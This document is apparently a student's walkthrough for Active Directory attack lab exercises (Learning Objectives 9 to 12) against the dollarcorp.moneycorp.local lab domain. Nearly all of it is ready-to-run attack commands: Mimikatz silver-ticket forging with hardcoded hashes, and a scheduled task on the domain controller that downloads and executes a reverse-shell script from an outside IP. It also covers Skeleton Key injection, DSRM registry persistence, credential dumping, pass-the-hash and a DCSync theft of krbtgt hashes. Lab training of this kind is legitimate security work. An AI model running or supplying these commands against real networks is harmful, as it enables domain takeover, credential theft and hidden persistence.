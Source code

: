 # Learning Objective 9 

Try to get command execution on the domain controller by creating silver ticket for:

- HOST service
	- `Invoke-Mimikatz -Command '"kerberos::golden /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /target:dcorp-dc.dollarcorp.moneycorp.local /service:HOST /rc4:6f5b5acaf7433b3282ac22e21e62ff22 /user:Administrator /ptt"'`
	- `schtasks /create /S dcorp-dc.dollarcorp.moneycorp.local /SC Weekly /RU "NT Authority\SYSTEM" /TN "STCheck" /TR "powershell.exe -c 'iex (New-Object Net.WebClient).DownloadString(''http://172.16.99.27/Invoke-PowerShellTcpOneLine.ps1''')'"`
	- `schtasks /Run /S dcorp-dc.dollarcorp.moneycorp.local /TN "STCheck"`
- WMI
	- `Invoke-Mimikatz -Command '"kerberos::golden /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /target:dcorp-dc.dollarcorp.moneycorp.local /service:WMI /rc4:6f5b5acaf7433b3282ac22e21e62ff22 /user:Administrator /ptt"'`

# Learning Objective 10

Use Domain Admin privileges obtained earlier to execute the Skeleton Key attack.
	- `<DCORP-DC VM> Invoke-Mimikatz -Command '"privilege::debug" "misc::skeleton"' -ComputerName dcorp-dc.dollarcorp.moneycorp.local`
	- `<ANY COMPUTER IN THE DOMAIN> Enter-PSSession –Computername dcorp-dc –credential dcorp\Administrator` 
		-> With password: `mimikatz`

# Learning Objective 11

Use Domain Admin privileges obtained earlier to abuse the DSRM credential for persistence.
	- `<DCORP-DC VM> Invoke-Mimikatz -Command '"token::elevate" "lsadump::sam"'`
	- `<DCORP-DC VM> Invoke-Mimikatz -Command '"lsadump::lsa /patch"'`
	- `<DCORP-DC> New-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\" -Name "DsrmAdminLogonBehavior" -Value 2 -PropertyType DWORD`
	- `<STUDENT VM> Invoke-Mimikatz -Command '"sekurlsa::pth /domain:dcorp-dc /user:Administrator /ntlm:a102ad5753f4c441e3af31c97fad86fd /run:powershell.exe"'`
	- `<NEW POWERSHELL PROMP FROM PTT> ls \\dcorp-dc\C$`

# Learning Objective 12

• Check if studentx has Replication (DCSync) rights.
	- `<STUDENT VM> Get-ObjectAcl -DistinguishedName "dc=dollarcorp,dc=moneycorp,dc=local" -ResolveGUIDs | ? {($_.IdentityReference -match "student27") -and (($_.ObjectType -match 'replication') -or ($_.ActiveDirectoryRights -match 'GenericAll'))}`

• If yes, execute the DCSync attack to pull hashes of the krbtgt user.
• If no, add the replication rights for the studentx and execute the DCSync attack to pull hashes of the krbtgt user.
	- `<STUDENT VM> Add-ObjectAcl -TargetDistinguishedName 'DC=dollarcorp,DC=moneycorp,DC=local' -PrincipalSamAccountName student27 -Rights DCSync -Verbose`
	- `<STUDENT VM> Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\krbtgt"'`
